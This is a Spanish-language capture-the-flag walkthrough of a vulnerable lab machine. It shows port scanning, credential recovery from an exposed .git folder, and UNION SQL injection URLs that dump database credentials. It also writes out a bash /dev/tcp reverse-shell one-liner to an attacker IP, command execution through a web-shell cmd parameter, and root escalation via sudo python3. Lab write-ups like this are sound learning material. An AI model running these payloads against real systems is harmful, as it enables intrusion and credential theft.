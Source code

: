 ## Escaneo de red: 
![[Pasted image 20240208114452.png]]
comenzamos haciendo un arp-scan y un nmap -sn para poder enumerar la red y poder reconocer cual es la ip de la maquina. 
## Enumeración de puertos: 
![[Pasted image 20240208120326.png]]
hacemos primero el reconocimiento de todos los puertos posibles para ver si hay algún puerto abierto, por lo que vemos en la imagen, encontramos el puerto 22 y 80 abiertos, ahora haremos el escaneo de servicios y versiones, además de mandar script de reconocimientos más ocupados 
![[Pasted image 20240208123327.png]]
podemos ver que en el puerto 22 esta el servicio ssh, en el puerto 80 tenemos un servicio http, en el cual tiene una direccion /.git por lo que se puede llegar a ver los ultimos commits.
![[Pasted image 20240208130607.png]]
enumeración de los contenidos de la pagina podemos ver que hay distintos tipos de url, además podemos investigar por tipos de archivos: 
![[Pasted image 20240208155327.png]]
En la investigación del contenido dentro de la pagina solo encontramos que está a la vista el login.php por lo que si entramos dentro de este podemos intentar hacer un sql injecction: 
![[Pasted image 20240208155750.png]]
al presionar login no aparece ni siquiera un tipo de error por lo que podemos deducir que no funciona este tipo de inyecciones: 
si volvemos al archivo targeted de la enumeración de los puertos podemos ver que hay a la vista un archivo .git que si vamos a la url podemos llegar a lo siguiente: 
![[Pasted image 20240208160009.png]]
le hacemos un wget -r a la url que tenemos arriba, es decir escribimos lo siguiente: `wget -r 192.168.1.81/.git` el -r es para que se descarguen los contenidos de la carpeta de manera recursiva.
![[Pasted image 20240208160538.png]]
empezamos a inspeccionar pero no es encuentra nada, pero tenemos un comando que se llama ``git log`` por el cual podemos ver las versiones anteriores del proyecto: 
![[Pasted image 20240208162846.png]]
si vemos el segundo commit implementando un git show y el id del commit y podemos ver lo siguiente:
![[Pasted image 20240208163034.png]]
podemos ver que el email ocupado es "lush@admin.com" y la contraseña es "321".
una vez dentro podemos ver lo siguiente: 
![[Pasted image 20240208163239.png]]
una vez dentro de la pagina podemos intentar ver que tipo de peticiones se hacen con el editar nombre: 
si tomamos la url de la pagina con burpsuite e intentamos hacer una sql injecction a partir de la url entonces queda algo asi: 
![[Pasted image 20240209124952.png]]
podemos ver que no se cae la pagina por lo que podemos saber que tiene 6 columnas.
podemos hacer un union select para empezar a enumerar elementos de la base de datos.
![[Pasted image 20240209130156.png]]
con esto podemos ver que base de datos se esta utilizando dentro de la pagina: 
![[Pasted image 20240209130744.png]]
en este caso se esta utilizando la base de datos darkhole_2, pero hay que suponer que esta no es la unica base de datos que esta dentro de la maquina por lo que podríamos enumerar todas las bases de datos.
```
/dashboard.php?id=2'+union+select+1,2,schema_name,4,5,6+from+information_schema.schema.ta--+-HTTP/1.1
```
![[Pasted image 20240209131802.png]]
podemos ver una base de datos mysql, pero al no ver la base de datos ya mostrada anteriormente para verlas todas tenemos que utilizas un group concat de la siguiente forma: 
```
/dashboard.php?id=2'+union+select+1,2,group_concat(schema_name),4,5,6+from+information_schema.schemata--+-
```
![[Pasted image 20240209131937.png]]
![[Pasted image 20240209132153.png]]
esa es la respuesta que necesitamos , en la cual podemos ver, `mysql,information_schema,performance_schema,sys,darkhole_2`, por lo que podemos decir que solo nos interesa la base de datos de la pagina, es decir darkhole_2: 
```
/dashboard.php?id=2'+union+select+1,2,group_concat(table_name),4,5,6+from+information_schema.tables+where+table_schema%3d'darkhole_2'--+-
Respuesta: ssh,users
```
podemos ver que dentro de la base de datos podemos ver las tablas ssh y users, si intentamos enumerar las columnas que tiene tabla ssh podemos ver las columnas: 
```
/dashboard.php?id=2'+union+select+1,2,group_concat(column_name),4,5,6+from+information_schema.columns+where+table_schema%3d'darkhole_2'+and+table_name%3d'ssh'--+- 
Respuesta: id,user,pass
```
![[Pasted image 20240209134156.png]]
una vez que tenemos esto podemos empezar a enumerar los datos, haciendo la siguiente query: 
```
/dashboard.php?id=2'+union+select+1,2,group_concat(user,0x3a,pass),4,5,6+from+ssh--+-
Respuesta: jehad:fool
```
![[Pasted image 20240209135048.png]]
ahora intentamos entrar con el usuario y contraseña encontrado a través de ssh y veremos lo siguiente: 
![[Pasted image 20240209141354.png]]
si vemos el historico de la terminal en el archivo .bash_history podemos  ver lo siguiente: ![[Pasted image 20240209141918.png]]
esto llama la atencion ya que esto pareciera ser que hay un potencial de hacer un RCE, y poder ejecutar un reverse shell:
![[Pasted image 20240209142120.png]]
con el comando netstat -nat podemos ver que puertos estan siendo oscupados dentro de la maquina, dentro de los cuales estan 33060,3306,9999 lo cual es importante para este punto, ya que podemos ver que se ocupa centro del historico: 
![[Pasted image 20240209142717.png]]
si hacemos un ps faux | grep "9999" podremos ver que hay un directorio /opt/web donde hay montado un servidor http, también podemos ver que estos archivos están siendo ejecutados por el usuario ``losy``, por lo que a lo mejor se podría sacar partido de esto.
![[Pasted image 20240209143007.png]]
si hacemos un cat al index.php podríamos ver que se declara un parámetro cmd por el cual se pueden ejecutar comando de consola dentro de la web. 
![[Pasted image 20240209143408.png]]
si hacemos un  `curl -s -X GET http://localhost:9999/?cmd=whoami` o un comando cualquiera de la termial podemos ver que nos responde von un parameter get ['cmd'] y la respuesta de este.

podemos dejar expuesto el puerto 9999 a través de una herramienta llamada chisel, primero tenemos que ejecutar chisel como servidor en nuestra  maquina,
![[Pasted image 20240209161853.png]]
luego tenemos que ejecutar como cliente en la maquina atacada.
![[Pasted image 20240209164609.png]]
en este caso podemos ver que ejecutamos como cliente al puerto que abrimos en el servidor, y ponemos el puerto 9999 a localhost 9999.
![[Pasted image 20240209164732.png]]
si nos metemos en el localhost:9999 podemos ver lo que esta dentro del 9999 de la maquina atacada. 
el remote portforwarding  se puede hacer desde el ssh, pero en ese caso tendría que ser local portforwarding ya que se hace desde el servicio local: 
```
$ ssh jehad@<ip> L:9999:127.0.0.1:9999
```
con el comando ``lsb_release -a`` podemos ver informacion del sistema operativo.
podemos ver que es un ubuntu focal: 
![[Pasted image 20240212115217.png]]
hacemos un oneliner para poder tomar control de una consola interactiva que es: `bash -c "bash -i >& /dev/tcp/192.168.1.89/443 0>&1"`
![[Pasted image 20240212115834.png]]

nos ponemos en escucha en nuestra terminal con netcat de la siguiente forma: 
```
$ nc -nlvp 443
```
![[Pasted image 20240212115822.png]]
podemos ver la primera flag que esta en el directorio home de losy.
![[Pasted image 20240212121157.png]]
si hacemos un cat al -bash_history podemos ver que alguien ha intentado hacer cosas con la contraseña de losy, por lo que la contraseña de losy es gang ahora la probaremos para ver si realmente esa es, para hacer esto podemos hacer un sudo -l para ver si tenemos permisos de root: 
![[Pasted image 20240212121357.png]]
podemos ver que tenemos el binario de python3 como usuario privilegiado, tambien podemos hacer un `find / -perm -4000 2>/dev/null` para ver si hay algun otro binario con privilegios de suid:
![[Pasted image 20240212121609.png]]
por lo cual podemos ver que esta pkexec, el cual **queda de tarea explotarlo despues para aprender**.
pero ahora podemos hacer `sudo -u root python3` para tener una consola interactiva dentron de la maquina, 
![[Pasted image 20240212122025.png]]
ahora podemos importar la librería os y poder ejecutar comandos : 
![[Pasted image 20240212122207.png]]
si hacemos un os.system("bash"), nos entregara una consola con privilegios de root, por lo que podemos ir al directorio root y sacar la ultima flag: 
![[Pasted image 20240212122321.png]]
